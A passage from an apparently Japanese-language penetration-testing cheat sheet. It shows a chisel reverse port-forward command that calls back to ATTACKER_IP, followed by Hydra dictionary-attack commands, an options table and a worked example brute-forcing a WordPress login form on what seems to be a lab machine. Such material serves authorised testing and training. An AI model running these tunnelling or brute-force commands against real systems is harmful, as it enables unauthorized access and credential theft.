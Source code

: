 ```bash

# 攻撃対象
chisel client ATTACKER_IP:ATTACKER_PORT R:PORT:IP:PORT

# ローカルから以下のURLでアクセスできる
<http://127.0.0.1>:PORT
```
`PORT` には転送したいポート、 `IP` には攻撃対象のIPアドレスを入力する。
# Brute Force
## Hydra

辞書攻撃を行うコマンド。

```bash
hydra -l USER_NAME -P WORD_LIST_PATH SERVER SERVICE
hydra -l USER_LIST_PATH -P WORD_LIST_PATH SERVICE://SERVER:PORT
```
### OPTIONS

|オプション|内容|
|---|---|
|-L|引数にユーザ名のリストファイルを指定|
|-l|引数にユーザネームを指定|
|-P|引数にパスワードリストファイルのパスを指定|
|-p|引数にパスワードを指定|
|-s|引数にデフォルト以外のポートを指定|
|-V|攻撃の進捗を表示|
|-t|引数に攻撃対象への同時(並行)接続数を指定|
|-d|デバッグ情報を表示|
|-v|冗長モード|

ワードリストのパスは `/usr/share/wordlists/` 。

### 使用例1

```bash
hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

**`http-form-post`**で攻撃の種類を指定している。ここではHTTPのPOSTメソッドを使ったフォーム送信を行う。

以降の文字列はPOSTリクエストの内容。初めの `wp-login.php` はログインフォームのあるパスを指定している。リクエストの内容はburpなどで調べることができる。

`^` で囲まれた部分には先に指定したユーザ名とパスワードリストの中身が入る。
